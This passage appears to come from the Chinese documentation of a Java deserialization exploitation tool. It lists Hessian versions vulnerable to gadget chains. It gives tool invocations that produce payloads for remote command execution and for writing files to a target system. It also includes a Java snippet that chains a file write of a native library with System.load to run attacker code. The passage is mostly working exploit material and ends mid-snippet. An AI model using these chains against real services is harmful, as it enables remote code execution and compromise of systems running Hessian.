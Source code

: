 * caucho hessian <= 4.0.59
* sofa hessian <= 4.0.4
* hessian little 都打不了

另外SwingLazyValue/ProxyLazyValue+MethodUtil 构造利用可能触发JVM Crash或打不了情况，所以不是很推荐使用

工具：链子的命令执行传参没有进行

```bash
#SwingLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:RuntimeExec:calc" -hessianType "Hessian2"

#ProxyLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:RuntimeExec:calc" -hessianType "Hessian2"
```

#### Fastjson JSONObject触发getter(未集成)

描述：通过JSONObject的#toString来触发后续利用：[https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/](https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/)

JSON.pase也行，打fastjson反序列化

#### Jackson POJONode触发getter(未集成)

‍

#### JavaUtils 写文件

描述：com.sun.org.apache.xml.internal.security.utils.JavaUtils类的public static静态方法writeBytesToFilename可以传入的文件名和字节数组进行写文件操作，且JavaUtils类位于rt.jar包中方便利用

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

另外JavaUtils的writeBytesToFilename是使用new File()+new FileOutputStream()来写入文件，所以需要写入文件的目录存在

工具：最后写文件的格式为：`JavaUtils:{source.file}|{destation.file}`​，工具会读取source.file也就是你本地这个文件的字节数组，然后最后写入的目标系统的文件名是destation.file。

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:JavaUtils:D:\\source\\sour.txt|/tmp/dest.txt" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:JavaUtils:D:\\source\\sour.txt|/tmp/dest.txt" -hessianType "Hessian2"
```

组合利用：既然能写文件，那么操作手法就比较多了。[X1r0z](https://exp10it.io/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/#javautilswritebytestofilename--systemload)将JavaUtils#writeBytesToFilename写文件和System#load组合到一条链子一次性触发：

```java
byte[] content = Files.readAllBytes(Paths.get("/Users/exp10it/exp.dylib"));
SwingLazyValue swingLazyValue1 = new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/exp.dylib", content});
SwingLazyValue swingLazyValue2 = new SwingLazyValue("java.lang.System", "load", new Object[]{"/tmp/exp.dylib"});

UIDefaults u1 = new UIDefaults();
UIDefaults u2 = new UIDefaults();
u1.put("aaa", swingLazyValue1);
u2.put("aaa", swingLazyValue1);

HashMap map1 = HashColl.makeMap(u1, u2);

```